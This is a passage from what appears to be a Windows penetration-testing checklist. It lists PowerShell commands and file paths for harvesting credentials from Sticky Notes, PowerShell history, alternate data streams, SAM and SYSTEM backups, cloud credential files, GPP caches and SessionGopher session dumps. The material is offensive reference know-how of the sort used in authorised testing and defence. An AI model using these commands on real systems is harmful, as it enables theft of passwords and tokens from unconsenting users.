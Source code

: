 	```
- [ ] Creds from sticky notes app
	```powershell
	C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite
	```
- [ ] Creds stored in services
	```powershell
	# SessionGopher to grab PuTTY, WinSCP, FileZilla, SuperPuTTY, RDP
	# https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
	Import-Module path\to\SessionGopher.ps1;
	Invoke-SessionGopher -AllDomain -o
	Invoke-SessionGopher -AllDomain -u domain.com\adm\-arvanaghi -p s3cr3tP@ss
	```
- [ ] Creds from Powershell History
	```powershell
	type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
	type C:\Users\swissky\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
	type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
	cat (Get-PSReadlineOption).HistorySavePath
	cat (Get-PSReadlineOption).HistorySavePath | sls passw
	```
- [ ] Creds from [alternate data stream](https://owasp.org/www-community/attacks/Windows_alternate_data_stream)
	```powershell
	Get-Item -path <filename> -Stream *
	Get-Content -path <filename> -Stream <keyword>
	```
- [ ] SAM & SYSTEM bak
	```powershell
	# Usually %SYSTEMROOT% = C:\Windows
	%SYSTEMROOT%\repair\SAM
	%SYSTEMROOT%\System32\config\RegBack\SAM
	%SYSTEMROOT%\System32\config\SAM
	%SYSTEMROOT%\repair\system
	%SYSTEMROOT%\System32\config\SYSTEM
	%SYSTEMROOT%\System32\config\RegBack\system
	```
- [ ] Cloud credentials
	```powershell
	# From user home
	.aws\credentials
	AppData\Roaming\gcloud\credentials.db
	AppData\Roaming\gcloud\legacy_credentials
	AppData\Roaming\gcloud\access_tokens.db
	.azure\accessTokens.json
	.azure\azureProfile.json
	```
- [ ] Cached [GPP password](https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/)
	```powershell
	# Before Vista look inside
	C:\Documents and Settings\All Users\Application Data\Microsoft\Group Policy\history